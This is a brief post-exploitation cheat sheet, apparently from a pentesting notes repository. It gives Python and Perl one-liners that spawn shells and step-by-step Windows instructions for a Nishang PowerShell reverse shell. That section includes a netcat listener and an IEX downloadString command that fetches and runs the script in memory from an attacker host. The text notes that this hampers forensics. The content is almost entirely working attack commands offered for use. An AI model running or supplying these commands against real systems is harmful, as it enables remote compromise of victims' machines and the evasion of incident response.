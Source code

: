 # Stable Shells (Post-Exploitation)

----------------------------------------------------
## Linux: 

### Python pty Shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

### Perl system command one liner
`perl -e 'system("/bin/bash -p");'`



## Windows:

### Using Nishang

   * On Attacker's machine:
   1. Copy *nishang/Shells/Invoke-PowerShellTCP.ps1* to pwd and name it *nishang.ps1*
   2. Add line *Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 4444* to the end of the file.
   3. Use the command `python -m SimpleHTTPServer` to make start a server on pwd.
   4. Start a netcat listener `nc -lvp 4444` 

   * On Victim's machine:
   1. Use the command `powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')` to 
   	  start a reverse shell on the machine.
   2. *downloadString* in the above command will not download the file, instead it will copy the contents of the file to the
      memory and executed directly from there. This leaves no trace of the file on the disk, and thus makes job of forensics 
      harder.

  